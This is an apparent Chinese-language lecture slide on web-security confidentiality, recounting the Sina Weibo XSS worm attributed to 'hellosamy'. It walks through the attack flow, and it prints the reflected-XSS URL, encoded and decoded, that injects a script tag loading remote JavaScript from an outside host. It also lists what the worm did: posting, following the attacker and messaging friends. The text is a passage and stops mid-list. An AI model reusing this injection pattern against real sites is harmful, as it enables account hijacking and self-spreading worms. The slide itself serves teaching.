

# 第4.1节 Web安全的机密性
虽然新浪及时的修复了漏洞，但是在hellosamy被封号之前约有30000名粉丝，也就是说有至少有30000名用户确实被感染过。
整个的攻击流程如下：
1、利用了新浪微博存在的XSS漏洞，先使自己的微博“中毒”，在浏览器中加载如下地址即可：
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
即
http://weibo.com/pub/star/g/xyyyd"><script src=//www.2kt.cn/images/t.js></script>? type=update
2、使用有道提供的短域名服务（这些网址目前已经“无害”）；
例如，通过 http://163.fm/PxZHoxn ，将链接指向：
http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=update
3、当新浪登陆用户不小心访问到相关网页时，由于处于登录状态，会运行这个js脚本做几件事情：
a.发微博，让更多的人看到这些消息，自然也就有更多人受害；
b.加关注，加uid为2201270010关注，这应该就是hellosamy的id；
c.发私信，给好友发私信传播这些链接；